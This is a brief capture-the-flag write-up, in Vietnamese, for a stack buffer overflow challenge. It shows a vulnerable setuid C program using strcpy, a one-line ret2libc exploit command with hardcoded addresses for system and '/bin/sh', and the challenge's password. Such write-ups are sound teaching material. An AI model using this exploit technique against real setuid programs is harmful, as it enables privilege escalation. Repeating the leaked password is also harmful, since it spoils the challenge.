



# ELF x86 - Stack buffer overflow basic 6

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```

Bài này có lỗi buffer overflow ở hàm `strcpy`. Ta tiến hành ghi đè địa chỉ trả về và tấn công ret2libc.

Tìm địa chỉ của `system` và `/bin/sh`



Tìm vị trí của message, nằm ở `ebp – 0x1c`



Exploit:

```bash
./ch33 $(python -c "print 'A' * 32 + '\x10\x83\xe6\xb7' + 'A' * 4 + '\x4c\xad\xf8\xb7'")
```



Password là `R3t2l1bcISnicet0o!`


